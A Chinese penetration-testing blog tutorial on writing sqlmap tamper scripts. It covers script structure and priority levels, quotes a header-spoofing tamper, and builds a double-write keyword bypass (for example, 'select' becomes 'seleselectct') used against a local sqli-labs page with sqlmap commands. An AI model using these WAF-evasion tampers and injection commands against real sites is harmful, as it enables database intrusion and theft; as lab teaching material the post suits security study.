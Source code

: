 ```yaml
---
title: "Sqlmap Tamper 编写"
date: 2019-11-18T21:20:09+08:00
draft: false
tags: []
categories: ['渗透测试']
---
```


从零开始写tamper
<!--more-->

## 简单介绍tamper
sqlmap的`--tamper`参数可以引入用户自定义的脚本来修改注入时的payload，由此可以使用tamper来绕过waf，替换被过滤的关键字等。这是一个基本的tamper结构
```python
#!/usr/bin/env python

"""
Copyright (c) 2006-2019 sqlmap developers (http://sqlmap.org/)
See the file 'doc/COPYING' for copying permission
"""

from lib.core.enums import PRIORITY
__priority__ = PRIORITY.LOW # 当前脚本调用优先等级

def dependencies(): # 声明当前脚本适用/不适用的范围，可以为空。
    pass

def tamper(payload, **kwargs): # 用于篡改Payload、以及请求头的主要函数
    return payload
```
需要把他保存为 `my.py` 放入 `sqlmap\tamper` 路径下，然后使用的时候加上参数 `--tamper=my` 就行了

## 简单分析
拿官方的一个tamper来分析下结构
```python
#!/usr/bin/env python

"""
Copyright (c) 2006-2019 sqlmap developers (http://sqlmap.org/)
See the file 'LICENSE' for copying permission
"""

import random

from lib.core.compat import xrange
from lib.core.enums import PRIORITY

__priority__ = PRIORITY.NORMAL

def dependencies():
    pass

def randomIP():
    numbers = []

    while not numbers or numbers[0] in (10, 172, 192):
        numbers = random.sample(xrange(1, 255), 4)

    return '.'.join(str(_) for _ in numbers)

def tamper(payload, **kwargs):
    """
    Append a fake HTTP header 'X-Forwarded-For'
    """

    headers = kwargs.get("headers", {})
    headers["X-Forwarded-For"] = randomIP()
    headers["X-Client-Ip"] = randomIP()
    headers["X-Real-Ip"] = randomIP()
    return payload
```
分为了import部分、`__priority__` 属性、dependencies函数、tamper函数以及用户自定义的函数

## import
这一部分我们可以导入sqlmap的内部库，sqlmap为我们提供了很多封装好的函数和数据类型，比如下文的`PRIORITY`就来源于`sqlmap/lib/core/enums.py`

### PRIORITY
PRIORITY是定义tamper的优先级，PRIORITY有以下几个参数:

- LOWEST = -100
- LOWER = -50
- LOW = -10
- NORMAL = 0
- HIGH = 10
- HIGHER = 50
- HIGHEST = 100

如果使用者使用了多个tamper，sqlmap就会根据每个tamper定义PRIORITY的参数等级来优先使用等级较高的tamper，如果你有两个tamper需要同时用，需要注意这个问题。

## dependencies
dependencies主要是提示用户，这个tamper支持哪些数据库，具体代码如下:
```python
#!/usr/bin/env python

"""
Copyright (c) 2006-2019 sqlmap developers (http://sqlmap.org/)
See the file 'LICENSE' for copying permission
"""

from lib.core.enums import PRIORITY
from lib.core.common import singleTimeWarnMessage
from lib.core.enums import DBMS

__priority__ = PRIORITY.NORMAL

def dependencies():
    singleTimeWarnMessage("这是我的tamper提示")

def tamper(payload, **kwargs):
    return payload
```
![20191118212606](https://y4er.com/img/uploads/20191118212606.png)

DBMS.MYSQL这个参数代表的是Mysql，其他数据库的参数也可以看这个`\sqlmap\lib\core\enums.py`
![20191118212624](https://y4er.com/img/uploads/20191118212624.png)

## Tamper
tamper这个函数是tamper最重要的函数，你要实现的功能，全部写在这个函数里。payload这个参数就是sqlmap的原始注入payload，我们要实现绕过，一般就是针对这个payload的修改。kwargs是针对http头部的修改，如果你bypass，是通过修改http头，就需要用到这个

### 基于payload
先来基于修改payload来绕过替换关键字，我使用sqlilab的第一关，并且修改了部分代码来把恶意关键字替换为空来避免联合查询，如图
![20191118212641](https://y4er.com/img/uploads/20191118212641.png)

编写tamper来双写绕过
```python
def tamper(payload, **kwargs):
    payload = payload.lower()
    payload = payload.replace('select','seleselectct')
    payload = payload.replace('union','ununionion')
    return payload
```
没有使用tamper之前，我们加上`--tech=U`来让sqlmap只测试联合查询注入，`--flush-session`意思是每次刷新会话，清理上次的缓存。
```
sqlmap -u http://php.local/Less-1/?id=1 --tech=U --flush-session --proxy=http://127.0.0.1:8080 --random-agent --dbms=mysql
```
![20191118212702](https://y4er.com/img/uploads/20191118212702.png)

从burp的流量中看到payload是没有双写的，必然会注入失败。而使用了tamper之后
```
sqlmap -u http://php.local/Less-1/?id=1 --tech=U --flush-session --proxy=http://127.0.0.1:8080 --random-agent --tamper=my --dbms=mysql
```
![20191118212747](https://y4er.com/img/uploads/20191118212747.png)

payload正常双写，可以注入
![20191118212800](https://y4er.com/img/uploads/20191118212800.png)

### 基于http头

我们使用`sqlmap\tamper\xforwardedfor.py`的tamper来讲解
```python
def tamper(payload, **kwargs):
    """
    Append a fake HTTP header 'X-Forwarded-For'
    """

    headers = kwargs.get("headers", {})
    headers["X-Forwarded-For"] = randomIP()
    headers["X-Client-Ip"] = randomIP()
    headers["X-Real-Ip"] = randomIP()
    return payload
```
从`kwargs`中取出`headers`数组，然后修改了xff值达到随机IP的效果，不再赘述。

## 总结

本文简单介绍了tamper的编写，并使用双写做了实例演示，在实际的渗透测试中，我们需要针对不同的waf来编写不同的tamper来灵活使用。

**文笔垃圾，措辞轻浮，内容浅显，操作生疏。不足之处欢迎大师傅们指点和纠正，感激不尽。**


